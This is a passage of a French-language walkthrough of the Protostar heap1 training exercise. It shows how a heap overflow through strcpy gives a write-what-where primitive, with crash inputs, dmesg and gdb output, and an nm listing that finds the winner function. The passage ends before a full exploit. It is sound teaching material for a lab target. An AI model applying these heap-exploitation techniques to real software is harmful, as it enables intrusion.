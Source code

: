 Au moment où `strcpy` est appelé pour la seconde fois on a le contrôle de l'adresse de `data` et aussi des données à écrire. On est donc sur un cas de write-what-where.

```bash
$ ./heap1 AAAAAAAAAAAAAAAAAAAAAAAA BBBB
Erreur de segmentation (core dumped)
$ dmesg | tail -2
[ 1396.178092] heap1[1864]: segfault at 41414141 ip 00000000f7cae312 sp 00000000ffaa031c error 6 in libc.so.6[f7c22000+180000] likely on CPU 0 (core 0, socket 0)
[ 1396.178113] Code: c3 8d b4 26 00 00 00 00 66 8b 01 66 89 02 8a 41 02 88 42 02 89 d0 c3 90 8b 01 89 02 89 d0 c3 8d b4 26 00 00 00 00 66 90 8b 01 <89> 02 8a 41 04 88 42 04 89 d0 c3 8d 76 00 8b 01 89 02 66 8b 41 04
```

On voit que le programme a crashé car on a tenté d'écrire à l'adresse `0x41414141` correspondant à nos caractères `A`.

On note cependant que l'adresse où le programme a crashé (`ip`) n'est pas dans le code du programme (pas une adresse en `0x0804XXXX`) mais une adresse de la libc. Il s'agit ici d'adresse d'instruction présente dans le code de `strcpy`. On n'est pas sur un cas de stack overflow ;-)

On peut toutefois poser un breakpoint sur l'appel à `strcpy` et vérifier que toutes les conditions sont là :

```bash
$ gdb -q ./heap1
Reading symbols from /opt/protostar/bin/heap1...done.
(gdb) b *0x08048555
Breakpoint 1 at 0x8048555: file heap1/heap1.c, line 32.
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAA BBBB
Starting program: /tmp/protostar/bin/heap1 AAAAAAAAAAAAAAAAAAAAAAAA BBBB

Breakpoint 1, 0x08048555 in main (argc=3, argv=0xffffcc94) at heap1/heap1.c:32
(gdb) x/4wx $esp
0xffffcbb0:     0x41414141      0xffffcf4a      0xf7fc0410      0x00000000
(gdb) x/s 0xffffcf4a
0xffffcf4a:     "BBBB"
```

Le programme va bien tenter d'écrire `BBBB` à l'adresse `0x41414141`.

Sans adresse de retour qu'allons nous écrire et où ? Pour le quoi la réponse est simple puisqu'il y a une fonction `winner` à appeler :

```bash
$ nm heap1
08049780 A __bss_start
08049780 b completed.5982
0804966c d __CTOR_END__
08049668 d __CTOR_LIST__
08049778 D __data_start
08049778 W data_start
080485e0 t __do_global_ctors_aux
08048410 t __do_global_dtors_aux
0804977c D __dso_handle
08049674 D __DTOR_END__
08049784 b dtor_idx.5984
08049670 d __DTOR_LIST__
0804967c d _DYNAMIC
08049780 A _edata
08049788 A _end
0804860c T _fini
08048628 R _fp_hw
08048470 t frame_dummy
08048664 r __FRAME_END__
08049750 d _GLOBAL_OFFSET_TABLE_
--- snip ---
08048494 T winner
```